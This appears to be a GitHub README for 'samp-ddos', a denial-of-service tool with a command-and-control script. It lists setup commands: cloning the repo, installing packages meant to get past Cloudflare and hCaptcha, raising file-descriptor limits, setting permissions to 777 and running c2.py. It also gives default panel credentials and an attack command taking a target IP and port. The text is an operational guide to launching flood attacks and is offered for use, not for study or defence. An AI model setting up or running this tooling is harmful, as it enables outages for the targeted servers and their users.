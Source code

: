  # how to setup
 
`` git clone https://github.com/CITY-HUNTER820/samp-ddos.git``
``cd samp-ddos ``
``npm i requests``
``npm i https-proxy-agent``
``npm i crypto-random-string``
``npm i events``
``npm i fs``
``npm i net``
``npm i cloudscraper``
``npm i request``
``npm i hcaptcha-solver``
``npm i randomstring``
``npm i cluster``
``npm i cloudflare-bypasser``
``pip3 install -r requirements.txt``
``wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb``
``apt-get install ./google-chrome-stable_current_amd64.deb``
``ulimit -n 999999``
``chmod 777 *``
``python3 c2.py``
 
 # USERNAME and PASSWORD
 username:vgl
 password:vgl


ovh-amp (ip) (port)
